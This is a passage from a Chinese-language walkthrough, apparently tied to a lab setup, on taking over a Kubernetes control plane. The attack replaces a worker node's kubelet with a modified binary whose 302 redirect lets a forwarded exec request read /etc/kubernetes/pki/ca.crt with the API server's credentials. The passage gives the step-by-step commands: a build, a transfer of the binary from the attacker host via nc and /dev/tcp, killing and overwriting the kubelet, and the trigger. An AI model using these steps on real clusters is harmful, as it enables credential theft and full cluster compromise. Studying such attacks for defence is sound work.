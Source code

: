         servermetrics.HTTPInflightRequests.WithLabelValues(method, path, serverType, longRunning).Inc()
        defer servermetrics.HTTPInflightRequests.WithLabelValues(method, path, serverType, longRunning).Dec()
      ```
      > **_Note:_** 有几点需要注意
      >
      > 1. host：<Master节点IP>:<API Server运行的端口>
      > 2. namespace、pod、container根据Master节点运行的pod具体情况进行填写
      > 3. command字段为执行的命令，此处利用场景为读取API Server的相关凭证文件，需要执行的命令为`cat /etc/kubernetes/pki/ca.crt`。由于此条命令涉及参数，因此在构造API请求时需要通过command拼接的形式.
      > 4. 编辑后保存退出，利用以下命令进行编译：
      > 
      >   ```bash
      >   # 切换至源码目录
      >   cd kubernetes/
      >   # 需要将go env中的GO111MODULE变量调整为on
      >   GO111MODULE=on go moddownload
      >   cd cmd/kubelet
      >   go build
      >   ```
   3. 将编译好的`kubelet`文件上传到`worker`节点。
      ```bash
      # 攻击端
      nc -lvp 10030 < kubelet
      # worker节点
      cat < /dev/tcp/<ip>/<port> > kubelet      
      ```
   4. 找到正在运行的kubelet进程: `ps -aux|grep kubelet`![2023-11-08-13-57-15.png](https://s2.loli.net/2023/11/08/GQK5nvE2ShrsxW4.png)
   5. 结束此进程: `kill $pid`
   6. 备份原kubelet文件: `cp /usr/bin/kubelet /usr/bin/kubelet`
   7. 覆盖原kubelet文件: `cp -f kubelet /usr/bin/kubelet`
   8. 确认kubelet是否重启(kubelet会自动重启，可多次kill，确认启动时间为最新): `ps -aux|grep kubelet`
   9. 运行起来后，在`master`节点执行此命令: `kubectl exec <pod-name> -n metarget -- hostname`
  4. 当在`master`节点向`worker`节点的pod执行exec操作时，具体操作流程将如下图。
   ![2023-11-08-14-00-06.png](https://s2.loli.net/2023/11/08/StkBHPNwiL3bDGq.png)
   API Server会将请求转发给`worker`节点的kubelet执行，而此时`worker`节点上的kubelet已经被我们替换，`exec`请求触发了我们新增的302重定向请求，导致`worker`节点的kubelet向API Server发起了构造的恶意请求，并沿用了原始请求的凭证(因为此请求是从API Server转发过来的，所以认证已经通过)，最终成功读取`/etc/kubernetes/pki/ca.crt`文件。同理也可以获取其他敏感凭证，从而获取API Server的控制权。
  5. 会在`master`节点获得如下`ca.crt`文件内容。
    ![2023-11-08-13-58-23.png](https://s2.loli.net/2023/11/08/PoclTy9xarLbmFE.png)

